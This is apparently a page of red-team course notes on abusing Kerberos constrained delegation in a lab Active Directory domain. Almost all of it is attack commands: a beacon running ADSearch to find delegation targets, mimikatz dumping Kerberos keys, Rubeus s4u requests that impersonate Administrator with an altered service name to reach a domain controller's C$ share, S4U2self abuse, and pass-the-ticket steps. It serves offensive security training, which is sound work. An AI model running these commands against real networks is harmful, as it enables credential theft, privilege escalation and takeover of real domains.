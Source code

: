 ###### <font style="color:#00b3ff">Search for Constrained Delegation</font> 
```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json

- Get the TGT of the principal (user or machine) trusted for delegation:
	beacon> mimikatz sekurlsa::ekeys

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt
```


###### <font style="color:#00b3ff">Alternate Service Name not validate in s4u, exploit it to request a TGS for any service run by DC-2$</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:eventlog/dc-2.dev.cyberbotic.io /altservice:cifs /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt

beacon> ls \\dc-2.dev.cyberbotic.io\c$
```

###### <font style="color:#00b3ff">S4U2self Abuse</font> 
```
Machines do not get remote local admin access to themselves over CIFS.  What we can do instead is abuse S4U2self to obtain a TGS to itself, as a user we know is a local admin (e.g. a domain admin):

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /user:WKSTN-2$ /msdsspn:cifs/wkstn-2.dev.cyberbotic.io /impersonateuser:nlamb /ticket:doIFLz[...snip...]MuSU8= /nowrap

The S4U2proxy step will fail, which is fine.  Write the S4U2self TGS to a file.

PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi", [System.Convert]::FromBase64String("doIFdD [...snip...] MtMiQ="))

Use Rubeus describe to show information about the ticket:
	C:\Tools\Rubeus\Rubeus\bin\Debug>Rubeus.exe describe /ticket:C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi

Change tickets service value: https://courses.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/32621616-s4u2self-abuse

To use the ticket, simply pass it into your session:
	beacon> getuid
	beacon> make_token DEV\nlamb FakePass
	beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\wkstn-2-s4u.kirbi
	beacon> ls \\wkstn-2.dev.cyberbotic.io\c$
```
